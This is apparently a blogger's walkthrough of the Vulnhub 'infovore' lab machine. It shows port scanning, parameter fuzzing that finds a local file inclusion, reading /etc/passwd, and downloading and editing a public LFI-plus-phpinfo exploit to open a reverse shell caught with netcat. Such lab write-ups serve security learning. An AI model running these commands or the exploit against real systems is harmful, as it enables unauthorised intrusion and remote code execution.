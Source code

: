 ```yaml
---
title: Vulnhub - infovore
description: My writeup on infovore box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://i0.wp.com/wp.laravel-news.com/wp-content/uploads/2017/07/php-leader.png?fit=2200%2C1125&ssl=1?resize=2200%2C1125)

Hi all, i pwned this box long time ago but i totally forgot to do a writeup haha ! :D It is a really interesting box, let's start!

You can find the machine there > [infovore](https://www.vulnhub.com/entry/infovore-1,496/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.8
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 23:18 EEST
Nmap scan report for 192.168.1.8 (192.168.1.8)
Host is up (0.00043s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:01:83:20 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.15 seconds
$ nmap -p 80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 23:18 EEST
Nmap scan report for 192.168.1.8 (192.168.1.8)
Host is up (0.00043s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Include me ...
MAC Address: 00:0C:29:01:83:20 (VMware)
```

Let's run a gobuster on it.

```
$ gobuster dir -q -u http://$ip/ -w $dir_medium -x php,txt,html -o gobuster.txt
/img (Status: 301)
/info.php (Status: 200)
/index.php (Status: 200)
/index.html (Status: 200)
/css (Status: 301)
/vendor (Status: 301)
```

Nothing interesting, i decided to do fuzz the parameter on `index.php` using wfuzz:

```
$ wfuzz -c -w $dir_medium --hw 382 http://$ip/index.php?FUZZ=/etc/passwd

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.8/index.php?FUZZ=/etc/passwd
Total requests: 220560

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                 
===================================================================

000025370:   200        26 L     33 W     1006 Ch     "filename"                      
```

We have LFI:

```
$ curl -s http://$ip/index.php\?filename\=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Nothing interesting.. and LFI seems like it allows only `/etc/passwd`, after some google-fu i find out a really interesting tool [LFI+phpinfo=RCE](https://github.com/M4LV0/LFI-phpinfo-RCE)

We have LFI + phpinfo (info.php) let's download & edit the exploit:

```
wget -q https://raw.githubusercontent.com/M4LV0/LFI-phpinfo-RCE/master/exploit.py
```

1) We have to add our ip & port for the reverse shell:

```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 3333;       // CHANGE THIS
```

2) We have to edit this:

```
POST /phpinfo.php?a= -> POST /info.php?a=
```

3) And finally this to add our LFI parameter:

```
GET /index.php?lfi= -> GET /index.php?filename=
```

Save & close and execute it:

```
$ python exploit.py $ip 80
LFI With PHPInfo()
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Getting initial offset... found [tmp_name] at 98082
Spawning worker pool (10)...

Got it! Shell created in /tmp/g

Woot!  \m/
Shuttin' down...
```

We have shell! 

```
$ nc -lvp 5555
listening on [any] 5555 ...
$ bash -i
www-data@e71b67461f6c:/$ 
``
